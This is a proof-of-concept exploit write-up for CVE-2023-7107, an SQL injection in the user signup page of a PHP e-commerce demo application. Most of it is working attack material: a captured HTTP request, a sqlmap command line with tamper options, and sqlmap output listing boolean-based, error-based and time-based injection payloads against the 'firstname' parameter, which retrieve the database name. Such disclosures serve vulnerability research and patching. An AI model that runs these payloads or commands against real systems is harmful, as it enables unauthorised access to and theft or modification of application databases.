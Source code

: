 # CVE-2023-7107_E-Commerce Website - SQL Injection 3
+ **Exploit Title:** CVE-2023-7107_E-Commerce Website - SQL Injection 3
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7107

## References: 
+ **CVE-2023-7107:** https://vuldb.com/?id.249002
+ https://www.cve.org/CVERecord?id=CVE-2023-7107
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7107
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7107

##  Description:
E-Commerce Website 1.0 allows SQL Injection via parameters 'firstname', 'middlename', 'email', 'address', 'contact' and 'username' in "/Electricks/Electricks-shop/pages/user_signup.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the user registration form: "http://localhost/Electricks/Electricks-shop/pages/user_signup.php"
+ Fill the the all form and click Create Account button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /Electricks/Electricks-shop/pages/user_signup.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 427
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sdqvs3v86m3s0vdqik7c5uah4g
Referer: http://localhost/Electricks/Electricks-shop/pages/user_signup.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

submit=test&address=test&username=Test&email=test%40example.com&lastname=Test&middlename=Test&firstname=Test&contact=test&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use sequencely 'firstname', 'middlename', 'email', 'address', 'contact' and 'username' parameters to dump the database. 
```
python sqlmap.py -r r.txt -p firstname --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
```

```
---
Parameter: firstname (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x4675586a WHERE 8114=8114 AND 5578=5578)||'&contact=test&password=Pass

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x59676a78 WHERE 1465=1465 AND (SELECT 6021 FROM(SELECT COUNT(*),CONCAT(0x7170707671,(SELECT (ELT(6021=6021,1))),0x717a707171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&contact=test&password=Pass

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x4a6a6e4b WHERE 2213=2213 AND (SELECT 8358 FROM (SELECT(SLEEP(5)))jkvt))||'&contact=test&password=Pass
---
[22:05:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[22:05:28] [INFO] fetching current database
[22:05:28] [INFO] resumed: 'electricks'
current database: 'electricks'
```

+ current database: `electricks`
![4](https://github.com/h4md153v63n/CVEs/assets/5091265/bfffd456-06bc-42e9-b55e-ee361a6b8fb6)
